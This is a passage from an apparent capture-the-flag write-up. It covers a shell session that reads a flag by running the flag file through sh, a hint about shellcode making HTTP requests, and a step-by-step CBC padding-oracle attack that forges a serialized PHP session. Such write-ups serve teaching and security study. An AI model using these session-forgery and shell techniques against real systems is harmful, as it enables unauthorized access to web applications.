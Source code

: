     $ echo /usr/local/sbin/* /usr/local/bin/* /usr/sbin/* /usr/bin/* /sbin/* /bin/*
    /usr/local/sbin/* /usr/local/bin/* /usr/sbin/* /usr/bin/* /sbin/* /bin/sh
    
    $ pwd
    /home/web/server
    
    $ cd ../flags
    
    $ pwd
    /home/web/flags
    
    $ echo *
    flag1.txt flag2-99754106633f94d350db34d548d6091a.txt
    
    $ sh flag2-99754106633f94d350db34d548d6091a.txt
    flag2-99754106633f94d350db34d548d6091a.txt: 1: BAMBOOFOX{dfdacda187002cb07922c42389a1aa83}: not found
    ```

### YEAR

Our expected solution didn't work, sorry... But you can still write shellcode to make a HTTP request. There were some clues about the IP address of `neighbor` in `/etc/hosts`.

### Da Ji

1. Through several tests, you might find out that the session was encrypted using CBC mode with 16 bytes block size.
2. Use padding oracle to decrypt the session:
    [https://github.com/djosix/padding_oracle.py](https://github.com/djosix/padding_oracle.py)
    ```php
    a:2:{s:4:"show";b:0;s:4:"name";s:1:"a";}\x08\x08\x08\x08\x08\x08\x08\x08
    ```
    This is a serialized PHP array. It's clear that you need to modify `show` to 1.
3. You can modify your name to fake a serialized PHP array and try to align it to a block with correct padding.
    ```php
    [      IV      ]a:2:{s:4:"show";b:0;s:4:"name";s:59:"___________a:2:{s:4:"show";s:1:"1";s:4:"name";s:1:"a";}";}\x01";}
    |               |               |               |               |               |               |               |
    0               16              32              48              64              80              96              112             128
    ```
    So the name should be `___________a:2:{s:4:"show";s:1:"1";s:4:"name";s:1:"a";}";}\x01` (the last `\x01` is PKCS#7 padding).
    After sending this string as name, you will recieve the session.
4. Then you just remove 0-47 and 112- of the session. (48-63 will be treated as IV). The decrypted session would be:
    ```php
    a:2:{s:4:"show";s:1:"1";s:4:"name";s:1:"a";}";}\x01
    ```

Exploit
